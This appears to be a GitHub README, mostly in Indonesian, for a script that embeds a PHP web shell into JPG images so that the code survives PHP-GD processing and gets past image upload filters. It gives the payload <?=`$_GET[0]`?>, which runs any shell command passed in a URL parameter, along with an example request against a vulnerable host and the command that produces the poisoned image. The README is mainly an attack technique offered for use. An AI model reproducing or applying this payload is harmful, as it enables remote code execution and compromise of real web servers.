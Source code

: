 # Bypass PHP-GD RCE
#### Bypassing image uploader use PHP-GD
#### Bypassing Via Injecting RCE Code In Image 
##### Perbedaan injeksi PHP GD dengan injeksi seperti exiftool, dan jhead adalah tidak merusak pixel/merubah pixel gambar. 
##### gambar yang di injeksi akan tetap menampilkan gambar, terdeteksi, dan terlihat seperti gambar asli
## Ubah gd.php dan ganti Payload/Kode yang ingin di inject ke gambar di _LINE 8_

```
$miniPayload = 'taruh payloadmu disini';
```
#### contoh payload yang dipake :

```
$miniPayload = '<?=`$_GET[0]`?>';
as
vuln.com/rce.jpg.php?0=id;uname -a
```
## How ?
```
php gd.php sample.jpg
```
#### jika sukses, maka ada file baru bernama payload_sample.jpg

# JPG ONLY !!!
